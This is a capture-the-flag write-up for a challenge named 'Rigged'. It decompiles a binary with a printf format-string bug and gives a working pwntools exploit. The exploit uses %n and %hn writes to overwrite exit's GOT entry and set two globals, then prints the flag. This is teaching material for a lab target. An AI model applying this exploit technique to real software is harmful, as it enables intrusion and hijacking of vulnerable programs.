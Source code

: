 +++
title = "Rigged"
date = 2024-07-02
authors = ["Abhinav I S"]
+++

first we run, checksec

```bash
checksec --file=challenge
```

<br>
{{ img(id="image1.png", alt="Alt Text", class="textCenter") }}

Looking at it in a decompiler (Ghidra)

```c

undefined8 main(void)

{
 long in_FS_OFFSET;
 char local_78 [104];
 long local_10;
 
 local_10 = *(long *)(in_FS_OFFSET + 0x28);
 banner();
 printf(
      "\nHelp Jim to fill these blanks up correctly please and submit your final sentence as the a nswer."
      );
 printf("\nNo matter what answer he provides, it somehow always seems to be wrong.");
 puts(
     "\nHe\'ll fail the test if he keeps getting this wrong! The evil school must have rigged the s ystem"
     );
 printf(
      "\nQ. In order to write efficient \'____\', developers usually go to a \'____\' to drink some  coffee: "
      );
 fflush(stdout);
 fgets(local_78,100,stdin);
 printf("Your final answer was ");
 printf(local_78);
 if ((blank1.1 == 0xc0de) && (blank2.0 == 0xcafe)) {
   printf(
        "\nOh! So you were able to somehow pass by the bearest of margins..Not bad. But its still  not good enough for me to care"
        );
                 /* WARNING: Subroutine does not return */
   exit(0);
 }
 printf(
      "\nYou failed again! Work Harder for the next test unless you wanna be a failure for the res t of your life"
      );
 if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                 /* WARNING: Subroutine does not return */
   __stack_chk_fail();
 }
 return 0;
}
```

We have to write 0xc0de in blank1.1, 0xcafe in blank2.0, and overwrite the GOT entry for exit to the function aced

we will use the printf %n format specifier vulnerability

1. first, we figure out which is the offset where the input we give is stored, using
the payload ABCD.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx...

<br>
{{ img(id="image2.png", alt="Alt Text", class="textCenter") }}

clearly, 8th argument is the input we give (hex 414243)

2. Address of win function is at 0x401247
> all addresses remain same since PIE is off, we can get these from Ghidra or any decompiler
3. got address of EXIT is 0x404038

4. First we write 0x40 at got address of exit + 2 bytes 0x40 of the 0x401247, then we write 0x1247 (4679) but we have already printed 64 bytes, hence our payload will have 4615 extra bytes to print

5. Address of blank1.1 is 0x404050
6. Address of blank2 is 0x404054

7. we have to write 0xc0de (49374) at 0x404050, since we have printed 4679 bytes already, we need to print 49374 - 4679 = 44695 more bytes

8. Similarly we need to print 2592 more bytes and write it in the address of blank2 (cafe)

Now we can craft our payload 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rvcechalls.xyz", 32855)

    return r


def main():
    r = conn()

    #input is at %8$x
    # blank1 addr = 0x00404050 == 0xc0de
    # blank2 addr = 0x00404054 == 0xcafe

    gotEx = 0x0404038 #got address of exit

    r.recv()
    # got address of EXIT is 0x404038
    # win address is 00401247
    # i have to write 0x40 at win+2 bytes
    # i have to write 0x4038 at win

    payload = b""
    # total bytes in stack  = 9 + 12 + 12 + 11 = 44 : padding = 4A first one is 8th , so we have to start at 14
    payload += b"%64X%14$n" + b"%4615X%15$hn" + b"%44695X%16$n" + b"%2592X%17$nAAAA" + p64(gotEx+2) + p64(gotEx) + p64(0x00404050) + p64(0x404054)

    r.sendline(payload)
    print(hex(exe.got['exit']))
    r.recv()
    r.interactive()


if __name__ == "__main__":
    main()

```

<br>

gives us the flag
```
flag{W00Ww_J1M_Y0uVe_GOT_s0m3_c00l_sk1lzzz_1907f147578}
```
